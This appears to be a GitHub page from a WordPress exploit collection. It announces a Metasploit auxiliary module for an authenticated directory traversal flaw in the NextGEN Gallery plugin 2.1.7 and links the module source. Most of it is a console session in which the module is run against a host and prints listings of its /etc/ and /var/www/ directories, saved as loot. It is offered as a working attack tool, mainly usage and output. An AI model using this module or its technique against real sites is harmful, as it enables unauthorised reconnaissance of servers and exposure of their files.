 #### Add WordPress Plugin NextGEN Gallery Auth Directory Traversal Vulnerability.

  Application: WordPress Plugin 'NextGEN Galley' 2.1.7
  Homepage: https://wordpress.org/plugins/nextgen-gallery/
  Source Code: https://downloads.wordpress.org/plugin/nextgen-gallery.2.1.7.zip
  Active Installs (wordpress.org): 1 Million+
  References: https://wpvulndb.com/vulnerabilities/8165

#### Vulnerable packages*
        
  2.1.7

#### Module

[wp_nextgen_gallery_dir_read.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_nextgen_galley_file_read.rb)
  
#### Usage:

##### Linux (Ubuntu 12.04.5 LTS):
```
 msf> auxiliary(wp_nextgen_galley_dir_read)  run

[+] 192.168.1.63:80 - File saved in: /home/espreto/.msf4/loot/20150901032100_default_192.168.1.63_nextgen.traversa_756306.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
 msf> auxiliary(wp_nextgen_galley_dir_read)  head /home/espreto/.msf4/loot/20150901032100_default_192.168.1.63_nextgen.traversa_756306.txt
[*] exec: head /home/espreto/.msf4/loot/20150901032100_default_192.168.1.63_nextgen.traversa_756306.txt

/etc/.java/
/etc/acpi/
/etc/alternatives/
/etc/apache2/
/etc/apm/
/etc/apparmor/
/etc/apparmor.d/
/etc/apport/
/etc/apt/
 msf> auxiliary(wp_nextgen_galley_dir_read)  set DIRPATH /var/www/
DIRPATH => /var/www/
 msf> auxiliary(wp_nextgen_galley_dir_read)  run

[+] 192.168.1.63:80 - File saved in: /home/espreto/.msf4/loot/20150901032225_default_192.168.1.63_nextgen.traversa_376098.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
 msf> auxiliary(wp_nextgen_galley_dir_read)  head /home/espreto/.msf4/loot/20150901032225_default_192.168.1.63_nextgen.traversa_376098.txt
[*] exec: head /home/espreto/.msf4/loot/20150901032225_default_192.168.1.63_nextgen.traversa_376098.txt

/var/www/html/
/var/www/logs/
/var/www/simple-backup/
/var/www/wp-admin/
/
/var/www/wp-includes/
 msf> auxiliary(wp_nextgen_galley_dir_read)
```
